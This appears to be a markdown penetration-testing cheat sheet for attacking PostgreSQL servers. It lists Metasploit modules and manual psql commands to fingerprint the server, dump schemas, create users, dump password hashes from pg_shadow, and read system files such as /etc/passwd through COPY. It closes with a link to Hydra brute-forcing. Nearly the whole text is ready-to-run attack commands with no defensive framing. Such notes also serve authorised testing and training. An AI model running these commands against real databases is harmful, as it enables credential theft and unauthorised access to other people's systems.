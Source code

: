 # PostGreSQL

## Enumeration using metasploit

### Determining Version of PostGreSQL Server

Metasploit can be used to determine the version of a PostGreSQL server using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_version`

### Dumping Database Schema

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_schemadump`

### Create a database user 

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/admin/postgres/postgres_sql`
`set SQL CREATE USER <username>;`

### Dump PostGreSQL Usernames and Password Hashes

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_hashdump`

### Read Local File

The following auxiliary module can be used to read a file from the local file system:

`use auxiliary/admin/postgres/postgres_readfile`
`set RFILE /path/to/file.txt`
`set RHOSTS <IP>`

## Manual Enumeration

### Read Local file

1) Connect to the postgres database 

`psql -h <IP> -U <username>`

2) Create a new table to store the contents of the file:

`CREATE TABLE tablename(t TEXT);`

3) Copy the contents of the file into table:

`COPY tablename FROM '/etc/passwd';`

4) Show the contents of the file stored within the table "tablename"

`SELECT * FROM tablename limit 30 offset 0;`

### Dump PostGreSQL Database Usernames and Password Hashes

`select usename, passwd from pg_shadow;`

## Bruteforcing Login Passwords

### Bruteforcing using Hydra

[Hydra PostGres Bruteforce](../password-cracking/hydra.md#postgresql-database-login)
